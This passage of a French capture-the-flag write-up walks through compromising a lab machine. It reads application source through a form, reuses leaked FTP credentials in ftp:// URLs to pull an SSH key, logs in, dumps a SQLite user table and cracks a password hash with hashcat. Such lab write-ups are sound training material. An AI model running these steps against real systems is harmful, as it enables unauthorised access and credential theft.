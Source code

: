 - file:///app/code/blueprints/report/report.py
- file:///app/code/blueprints/auth/auth.py
- file:///app/code/blueprints/dashboard/dashboard.py

Dans ce dernier exemple, on trouve des credentials pour un FTP local : 

> try: ftp = FTP('ftp.local') ftp.login(user='ftp_admin', passwd='u3jai8y71s2') ftp.cwd('/')

En mettant l'URL de ce FTP dans le même formulaire, on obtient un PDF avec un directory listing du FTP : 

    ftp://ftp_admin:u3jai8y71s2@ftp.local

En répétant l'opération sur les deux fichiers, on obtient une clé privée SSH et le mot de passe associé dans la note : 

    ftp://ftp_admin:u3jai8y71s2@ftp.local/private-8297.key
    ftp://ftp_admin:u3jai8y71s2@ftp.local/welcome_note.txt
    

Tous les utilisateurs sont en /nologin dans /etc/passwd, mais en faisant un ssh-keygen sur la clé obtenue on peut voir le commentaire "dev_acc@local" (Key-Rephasing).

Et bien penser à rajouter une ligne vide après la fin de la clé sur Windows, pour éviter l'erreur du format invalide même quand le format est censé être valide.

    ssh-keygen -p -f .\id_rsa_intuition.txt

    ssh -i .\id_rsa_intuition.txt dev_acc@comprezzor.htb
    
    cat user.txt

## Pivoting 1 (Adam)

En fouillant dans le système de fichiers, on trouve une base de données locale liée à l'application Flask : 

    cd /var/www/app/blueprints/auth
    sqlite3 users.db 
    sqlite> .tables
    sqlite> SELECT * FROM users;

On obtient deux hashes :  

    1|admin|sha256$nypGJ02XBnkIQK71$f0e11dc8ad21242b550cc8a3c27baaf1022b6522afaadbfa92bd612513e9b606|admin
    2|adam|sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43|webdev 
    
Le deuxième est cassable : 

    hashid -m 'sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43'
    
    .\hashcat.exe -m 30120 -a 0 'sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43' .\rockyou.txt --force
    
Résultat :  

    sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43:adam gray
